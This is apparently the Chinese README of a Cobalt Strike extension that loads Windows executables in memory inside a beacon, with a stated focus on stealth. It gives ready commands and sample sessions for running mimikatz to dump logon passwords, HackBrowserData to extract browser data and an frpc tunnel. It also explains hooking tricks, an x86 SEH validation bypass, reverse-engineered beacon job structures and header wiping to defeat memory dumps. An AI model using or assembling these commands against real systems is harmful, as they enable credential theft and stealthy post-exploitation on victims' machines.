

# Inline-Execute-All

[English](README.md) | 简体中文

这是一个追求易用性与隐蔽性的适用于Cobalt Strike的内存加载PE的项目，有开箱即用的BOF和cna，支持 C/C++ 和 Golang 可执行文件，具有 SEH、异步执行、流式输出和自动卸载等高级特性。已测试并支持frp、gohttpserver、fscan、HackBrowserData、UACME (修改版)、mimikatz等各种知名工具。

## 目录

- [概述](#概述)
- [特性对比](#特性对比)
- [支持的程序](#支持的程序)
- [功能特性](#功能特性)
- [使用说明](#使用说明)
  - [inline-execute-cpp](#inline-execute-cpp)
  - [inline-execute-go](#inline-execute-go)
  - [inline-log-pe](#inline-log-pe)
  - [inline-list-pe](#inline-list-pe)
- [高级设置](#高级设置)
- [架构图](#架构图)
- [技术实现](#技术实现)
  - [内存映射 PE](#内存映射-pe)
  - [API 模拟](#api-模拟)
  - [SEH 支持](#seh-支持)
  - [异步执行](#异步执行)
  - [异步日志](#异步日志)
  - [异常防护](#异常防护)
  - [自卸载](#自卸载)
- [编译构建](#编译构建)
- [重要提示](#重要提示)
- [许可证](#许可证)

## 概述

本项目是一个为 Cobalt Strike 设计的内存 PE 加载器，追求易用性与隐蔽性。与现有方案不同，它结合了基于 BOF 执行的最佳特性和 SEH 支持、异步执行、流式输出等高级功能。

**为什么 Inline-Execute-All？**

目前已经有一些内存加载PE的方案，但是有一些缺点，不太符合目前的需求。这里列举用到比较多的2个内存加载PE方案。

Inline-Execute-PE: [Octoberfest7/Inline-Execute-PE: Execute unmanaged Windows executables in CobaltStrike Beacons (github.com)](https://github.com/Octoberfest7/Inline-Execute-PE)  
Inline-Execute-PE是使用BOF在当前进程内存加载PE，但是会因为BOF的运行原理，在PE运行期间阻塞整个Beacon。如果是fscan之类的长时间运行的程序，Inline-Execute-PE根本不能使用，而且Inline-Execute-PE也不支持go的程序。

SharpBlock: [CCob/SharpBlock: A method of bypassing EDR's active projection DLL's by preventing entry point exection (github.com)](https://github.com/CCob/SharpBlock)  
SharpBlock是C#写的一个工具，需要用execute-assembly内存加载这个.NET程序集然后再内存加载需要运行的PE。SharpBlock会启动一个新进程，然后利用调试器API阻止EDR的dll注入然后使用Process Hollowing加载要运行的PE。

本项目使用BOF在当前进程内存加载PE，通过很多黑科技实现了上面2位都有的特性，同时去掉了他们的缺点。

## 特性对比

|         | Inline-Execute-PE   | SharpBlock            | 本项目                   |
| ------- | ------------------- | --------------------- | --------------------- |
| BOF     | ✅                   | ❌ (C#写的，需要内存加载.NET)   | ✅                     |
| 进程内运行   | ✅                   | ❌ (Process Hollowing) | ✅                     |
| 异步运行    | ❌ (运行期间会因为BOF的执行阻塞) | ✅                     | ✅                     |
| 异步日志    | ❌ (和异步运行相同)         | ✅                     | ✅                     |
| SEH     | ❌                   | ❌                     | ✅                     |
| TLS     | ❌                   | ❌                     | ❌                     |
| Win32资源 | ✅                   | ✅                     | ❌ (没有拷贝PE头所以不支持，有意为之) |
| 卸载      | ⚠ (资源释放不深入，有内存泄露)   | ✅                     | ⚠ (非常轻微的内存泄露，这个很难解决)  |
| 大体积PE   | ❌                   | ✅                     | ❌                     |
| C/C++程序 | ✅                   | ✅                     | ⚠ (需要使用/MT静态编译)       |
| Go程序    | ❌                   | ✅                     | ✅                     |
| .NET程序集 | ❌                   | ❌                     | ❌                     |
| 异常防崩溃 | ❌                   | ✅                     | ✅                     |

可以加载的程序对比:

|                    | Inline-Execute-PE | SharpBlock | 本项目 |
| ------------------ | ----------------- | ---------- | --- |
| HelloWorld (C/C++) | ✅                 | ✅          | ✅   |
| HelloWorld (Go)    | ❌                 | ✅          | ✅   |
| frp                | ❌                 | ✅          | ✅   |
| gohttpserver       | ❌                 | ✅          | ✅   |
| fscan              | ❌                 | ✅          | ✅   |
| HackBrowserData    | ❌                 | ✅          | ✅   |
| UACME (修改版)        | ⚠ (不支持SEH)        | ⚠ (不支持SEH) | ✅   |
| mimikatz           | ⚠ (不支持SEH)        | ⚠ (不支持SEH) | ✅   |

## 功能特性

**支持的功能：**

- ✅ 开箱即用的BOF和cna
- ✅ 进程内运行，无进程注入
- ✅ 异步运行，不阻塞BOF返回，支持长时间任务
- ✅ 异步日志（实时回显），每次Beacon心跳时输出增量的stdout/stderr，且正确处理编码
- ✅ SEH，可以进行RPC等需要SEH的操作
- ✅ 自卸载，在PE运行完成后自动卸载PE和大部分内存资源
- ✅ C/C++/Go程序
- ✅ 异常防崩溃，无论你的内存PE如何崩溃（即使是在其他线程），依然可以保证你的Beacon不退出

**不支持的功能：**

- ❌ TLS，没有适合BOF的方案，所有方案都非常麻烦，而且几乎没有程序需要TLS
- ❌ Win32资源，为了防止内存Dump，特意抹去了PE头，从而不支持Win32资源。很少程序会使用Win32资源。后续考虑提供项拷贝PE头
- ❌ \.NET程序集，这个不在考虑范围内，因为加载原理和其它PE完全不一样

> [!CAUTION]  
> C/C++程序必须使用/MT静态编译。否则命令行，Stdio都不会正常工作！

## 使用说明

在 Cobalt Strike 中加载 cna 脚本。这将提供四个命令：

- `inline-execute-cpp` - 加载并执行 C/C++ 程序
- `inline-execute-go` - 加载并执行 Golang 程序
- `inline-log-pe` - 获取日志和完整的 stdout/stderr 输出
- `inline-list-pe` - 列出已加载的 PE 映像

加载的 PE 将在完成后自动卸载。无需手动干预。

> [!CAUTION]  
> 在启用Job后（默认），会在jobs的返回结果中看到一个伪进程，禁止使用jobkill移除这个条目，否则会造成整个Beacon的崩溃！

> [!TIP]  
> inline-execute-cpp/go可以直接在第一个参数（也就是exe路径）后直接写原始的命令行参数，无需任何转义，并且引号会原封不动地被传递给PE。

### inline-execute-cpp

Load and execute C/C++ programs. The first argument is the exe path, followed by raw command-line arguments (quotes work as normal):

```
Command: inline-execute-cpp
Summary: This command will run a BOF to load a C/C++ PE file into beacon memory.
         Supports x86/x64 C/C++ PE file. Golang/C# are not supported.

Usage:   inline-execute-cpp </path/to/cpp_binary.exe> [args]
         </path/to/cpp_binary.exe> Required. Full path to the C/C++ exe you wish you load into the beacon.
         [args]                    Optional. Raw command line arguments. Use double quotes as usual.

         Example: inline-execute-cpp C:\MyTools\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```

**Example (HelloWorld):**

```
beacon> inline-execute-cpp "C:\Users\admin\Desktop\helloworld_c.x64.exe"

[+] host called home, sent: 176589 bytes
[+] received output:
Job 0 was added. Never use 'jobkill' for this PE image!
[+] received output:
PE image was loaded. (imageBase: 000001EF43590000, imageSize: 29000, entryPoint: 000001EF43591660)
[+] received output:
Hello, World!
你好，世界！
helloworld.txt has been written in C:\Users\admin\Desktop
Process exited with code 0.
```

**Example (mimikatz):**

```
beacon> inline-execute-cpp "C:\Users\admin\Desktop\mimikatz.exe" privilege::debug sekurlsa::logonpasswords exit

[+] host called home, sent: 589816 bytes
[+] received output:
Job 0 was added. Never use 'jobkill' for this PE image!
[+] received output:
PE image was loaded. (imageBase: 0000024825560000, imageSize: 177000, entryPoint: 00000248256D48D0)
[+] received output:

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords
[... credential output ...]

mimikatz(commandline) # exit
Bye!
Process exited with code 0.
```

> **Note**: mimikatz must be statically compiled with `/MT`.

### inline-execute-go

Load and execute Golang programs. The first argument is the exe path, followed by raw command-line arguments:

```
Command: inline-execute-go
Summary: This command will run a BOF to load a golang PE file into beacon memory.
         Supports x86/x64 golang PE file. C/C++/C# are not supported.

Usage:   inline-execute-go </path/to/go_binary.exe> [args]
         </path/to/go_binary.exe> Required. Full path to the golang exe you wish you load into the beacon.
         [args]                   Optional. Raw command line arguments. Use double quotes as usual.

         Example: inline-execute-go C:\MyTools\HackBrowserData.exe
         Example: inline-execute-go C:\MyTools\frpc.exe stcp -s test.com -P 1234 -t 1234 -n "my name" -l 1234
```

**Example (HelloWorld):**

```
beacon> inline-execute-go "C:\Users\admin\Desktop\helloworld_go.x64.exe"

[+] host called home, sent: 2074062 bytes
[+] received output:
Job 5 was added. Never use 'jobkill' for this PE image!
[+] received output:
PE image was loaded. (imageBase: 000001EF435F0000, imageSize: 285000, entryPoint: 000001EF43654180)
[+] received output:
Hello, World!
你好，世界！
helloworld.txt has been written in C:\Users\admin\Desktop
Process exited with code 0.
```

**Example (HackBrowserData):**

```
beacon> inline-execute-go "C:\Users\admin\Desktop\hack-browser-data.exe"

[+] host called home, sent: 3127758 bytes
[+] received output:
Job 6 was added. Never use 'jobkill' for this PE image!
[+] received output:
PE image was loaded. (imageBase: 000001EF43890000, imageSize: 9f9000, entryPoint: 000001EF44286DE0)
[+] received output:
[... browser data extraction logs ...]
Process exited with code 0.
```

### inline-log-pe

Fetch logs and complete stdout/stderr output. The first argument is the image base (optional, defaults to last loaded PE):

```
Command: inline-log-pe
Summary: This command will run a BOF to fetch logs from a running PE image.

Usage:   inline-log-pe [image_base]
         [image_base] Optional. The hex string of the image base which pointer to the PE image in memory. 
                      Default value is the last loaded PE image.

         Example: inline-log-pe
         Example: inline-log-pe 0x008D0000
```

**Example:**

```
beacon> inline-log-pe 000001EF435B0000

[+] host called home, sent: 2699 bytes
[+] received output:
Stdout: Hello, World!
你好，世界！
Arguments passed: 参数
helloworld.txt has been written in C:\Users\admin\Desktop

[+] received output:
Stderr: 
```

### inline-list-pe

List all loaded PE images with details:

```
Command: inline-list-pe
Summary: This command will run a BOF to list all loaded PE images with some details.

Usage:   inline-list-pe

         Example: inline-list-pe
```

**Example:**

```
beacon> inline-list-pe

[+] host called home, sent: 2346 bytes
[+] received output:
Loaded PE images:
[+] received output:
0: ImageBase: 000002015D490000 (unloaded), Available logs: 0, IsRunning: 0, JobId: 0
[+] received output:
1: ImageBase: 000002015D4B0000, Features: 3000f, Available logs: 0, IsRunning: 1, CommandLine: gohttpserver.exe, JobId: 1
```

## 高级设置

`inline-execute-all.cna` 脚本提供了用于调试和功能控制的高级设置。修改后重新加载脚本：

```javascript
$trace_enabled = false; // 在 cna 脚本中启用跟踪日志
$use_debug_bof = false; // 使用调试版本的 BOF
$use_job = true;        // 使用 beacon jobs 自动获取日志（推荐）

// C/C++ PE 文件的功能特性
$features_cpp = $HookFeatureRedirectStdio | $HookFeatureStreamingOutput | 
                $HookFeatureCommandLine | $HookFeatureUnload | 
                $HookFeatureVirtualFileSystem | $HookFeatureExceptionGuard | 
                $HookFeatureCpp | $HookFeatureCppSEH;

// Golang PE 文件的功能特性
$features_go = $HookFeatureRedirectStdio | $HookFeatureStreamingOutput | 
               $HookFeatureCommandLine | $HookFeatureUnload | 
               $HookFeatureVirtualFileSystem | $HookFeatureExceptionGuard | 
               $HookFeatureGo | $HookFeatureGoCobraFakeParentProcess;
```

- `trace_enabled` / `use_debug_bof` - 调试选项，用于详细的加载信息
- `use_job` - 控制 Beacon Job API 的使用（通过特征匹配，在未来的 CS 版本中可能不稳定）。禁用会移除流式输出但保留异步日志
- `features_cpp` / `features_go` - 控制启用的功能。**注意**：`HookFeatureUnload` 与 BokuLoader 冲突，会在 PE 卸载后导致崩溃（BokuLoader 的 bug）

## 架构图

以下图表展示了执行流程：



## 技术实现

### 内存映射 PE

实现基于 [ReflectiveLoaderEx](https://github.com/wwh1004/ReflectiveLoaderEx) 的修改版本，选择它是因为其代码库简洁明了。其他支持 SEH/TLS 的方案过于复杂，难以适配为 BOF。

修改后的 ReflectiveLoaderEx 移除了基于 PEB 的 kernel32 解析和基于返回地址的 PE 头检测，将 PE 映射整合到单个函数中：

```c
PVOID ReflectiveLoaderEx(PVOID *libraryAddress, 
                        PVOID loadLibraryA, 
                        PVOID getProcAddress, 
                        PVOID virtualAlloc, 
                        PVOID ntFlushInstructionCache, 
                        BOOL copyPEHeaders)
```

通过提供自定义的 `GetProcAddress` 实现来实现导入表 Hook。

### API 模拟

关键的被 Hook API：

- **ExitProcess** - 触发自卸载序列，最后退出线程
- **GetCommandLineA/W** - 提供伪造的命令行
- **GetStdHandle** - 重定向 stdio
- **Process32NextW** - 伪造父进程（防止 Golang Cobra CLI 检测）
- **WriteFile** - 启用流式 stdio 输出
- **CreateThread** - 在 Golang 程序退出时释放线程资源
- **AddVectoredExceptionHandler/AddVectoredContinueHandler/SetConsoleCtrlHandler** - 在 Golang 退出时释放 kernel32 回调
- **VirtualAlloc/VirtualFree/TlsAlloc** - 跟踪内存资源以进行 Golang 清理
- **GetProcAddress** - 支持嵌套动态 API 解析（例如 UPX）

> **注意**：Golang 程序退出检测必须在 `ExitProcess` 中完成，而不是等待主线程。Golang 的协程调度器没有主线程概念 - 在上下文切换后，入口点线程可能不再运行 main 函数。

### SEH 支持

**x64**：使用导出的 `RtlAddFunctionTable` 在 ntdll 中注册异常处理程序。

**x86**：没有导出函数。当前方案（Blackbone、MemoryModulePP）使用特征码扫描来查找未导出的 `RtlAddFunctionTable` 和所需参数。这需要特定版本的特征码，使得通用支持极其繁琐。

**新方案**：Hook `NtQueryVirtualMemory` 绕过 `RtlIsValidHandler` 并在 x86 上启用 SEH。

方法：正常映射 PE，保留 PE 头，但去掉 Load Config 表。Hook `NtQueryVirtualMemory`，当分配基址匹配我们的 PE 时，将 `Type` 改为 `MEM_IMAGE`。

**RtlIsValidHandler 流程：**

1. 检查 EIP 是否有函数表。如果有，则针对表验证处理程序（SafeSEH）并返回结果。否则继续。
2. 获取当前进程 DEP 信息。如果 DEP 禁用，则允许执行。如果启用，则验证内存页。
3. 验证 EIP 页是否可执行。如果不可执行且 DEP 禁止非可执行代码，则失败。否则继续。
4. 验证页类型是否为 `MEM_IMAGE`。如果是 `MEM_PRIVATE`（VirtualAlloc），则检查 DEP 标志并返回。如果是 `MEM_IMAGE`，则继续。
5. 最终验证：如果属于带有 Load Config 表的 PE 映像（启用了 SafeSEH），则拒绝执行。如果不是 PE 或没有函数表，则允许执行。

**核心 x86 Hook 代码：**

```asm
MyNtQueryVirtualMemory PROC STDCALL ProcessHandle:DWORD, BaseAddress:DWORD, 
                                   MemoryInformationClass:DWORD, MemoryInformation:DWORD, 
                                   MemoryInformationLength:DWORD, ReturnLength:DWORD
    push ebx
    INVOKE NtQueryVirtualMemoryTrampoline, ProcessHandle, BaseAddress, 
           MemoryInformationClass, MemoryInformation, MemoryInformationLength, ReturnLength

    ; if (eax >= 0) and (ProcessHandle == NtCurrentProcess) and (MemoryInformationClass == MemoryBasicInformation)
    .IF (SDWORD PTR eax >= 0) && (ProcessHandle == -1) && (MemoryInformationClass == 0)
        ; 检查 AllocationBase 是否在我们的 ImageBaseList 中
        ; 如果匹配，设置 mbi.Type = MEM_IMAGE
        ; [为简洁省略实现细节]
    .ENDIF

    pop ebx
    ret
MyNtQueryVirtualMemory ENDP
```

### 异步执行

通过从 `hooks.dll`（C++ 编译）中提取 `.text` 节并将其作为位置无关的 shellcode 运行来实现 - 即架构图中的 "Hooks (Shellcode)"。

通过使 Hooks 在内存中持久化，与映射的 PE 具有相同的生命周期（不随 BOF 卸载），使得传统 BOF 中不可能实现的功能成为可能。由于被 Hook 的 API 重定向到 Hooks，即使在 BOF 返回后它们仍然可以正常工作。

### 异步日志

两个组件：异步日志本身和流式输出。

**异步日志**：通过 Hooks 实现，接收并排队日志，在需要时弹出。

**流式输出**：更复杂，利用逆向工程的 Beacon Job API。像 `execute-assembly` 和 `keylogger` 这样的工具使用 Job API 进行实时输出。在内部，管道被添加到列表中，在每次 Beacon 心跳时，读取所有管道并将数据推送到 C2 服务器。

通过特征匹配 Beacon 的内部 Job API 找到管道列表，`hooks.dll` 可以在日志到达时利用 Job API 实现流式输出。

**逆向工程的 Job 结构：**

```c
#define JobDescriptionMax 64

typedef struct _JobEntryV1 {
  int JobId;
  PROCESS_INFORMATION Process;
  HANDLE OutputReadHandle;
  HANDLE OutputWriteHandle;
  struct _JobEntryV1 *Next;
  short IsNamedPipe;
  short IsCompleted;
  DWORD ProcessId;
  int CallbackType;
  short IsPacket;
  char Description[JobDescriptionMax];
} JobEntryV1;

// Cobalt Strike 4.9+ 添加了 RequestId
typedef struct _JobEntryV2 {
  int JobId;
  PROCESS_INFORMATION Process;
  HANDLE OutputReadHandle;
  HANDLE OutputWriteHandle;
  struct _JobEntryV2 *Next;
  short IsNamedPipe;
  short IsCompleted;
  DWORD ProcessId;
  int CallbackType;
  int RequestId;
  short IsPacket;
  char Description[JobDescriptionMax];
} JobEntryV2;
```

### 异常防护

为了防止 Beacon 因加载的 PE 文件中的未处理异常而崩溃，项目实现了基于向量化异常处理程序（VEH）的异常保护机制。

实现使用 `AddVectoredExceptionHandler` 在 PE 执行前注册全局异常处理程序。当 PE 的线程中发生异常时：

1. VEH 捕获异常并检查它是否来自受保护的线程
2. 如果匹配，保存异常信息（代码和地址）并将上下文恢复到安全状态
3. 从预定义的恢复点继续执行，而不是崩溃
4. 异常详细信息可以记录用于调试目的

`vehprot.cc` 中的关键宏：

- **VP_INIT** - 通过动态解析 API 并注册处理程序来初始化向量化异常处理程序
- **VP_TRY** - 标记受保护代码块的开始，捕获当前线程上下文
- **VP_CATCH** - 处理在受保护块中发生的异常
- **VP_END** - 标记受保护区域的结束
- **VP_UNINIT** - 在清理时移除向量化异常处理程序

这种方法确保即使加载的 PE 遇到关键错误（访问冲突、除零等），Beacon 仍然保持稳定和可操作。

### 自卸载

当 PE 调用 `ExitProcess` 时自动触发。技巧是使用汇编先调用 `VirtualFree`，然后将返回地址设置为 `ExitThread`。这避免了在 `VirtualFree` 卸载自身后返回到已释放的内存。

**x64 汇编：**

```asm
VirtualFreeAndExitThread PROC
    push r8
    mov rax, rdx
    mov r8, MEM_RELEASE
    mov rdx, 0
    jmp rax
    int 3
VirtualFreeAndExitThread ENDP
```

**x86 汇编：**

```asm
VirtualFreeAndExitThread PROC
    push MEM_RELEASE
    push 0
    push ecx
    push dword ptr [esp + 0x10]
    jmp edx
    int 3
VirtualFreeAndExitThread ENDP
```

## 编译构建

使用提供的构建脚本：

**Windows：**
```cmd
build.bat
```

**Linux/macOS：**
```bash
./build.sh
```

编译后的 BOF 和 cna 脚本将位于 `bin/` 目录中。

## 重要提示

1. **C/C++ 程序必须使用 `/MT` 静态编译。否则命令行，Stdio都不会正常工作！**
2. **永远不要对此工具创建的伪进程使用 `jobkill`**
3. **不支持 TLS** - 没有适合BOF的方案，所有方案都非常麻烦，而且几乎没有程序需要TLS
4. **不支持 Win32 资源** - Win32资源，为了防止内存Dump，特意抹去了PE头，从而不支持Win32资源
5. **不支持 .NET 程序集** - 请使用 `execute-assembly`

## 许可证

详见 [LICENSE.txt](LICENSE.txt)。
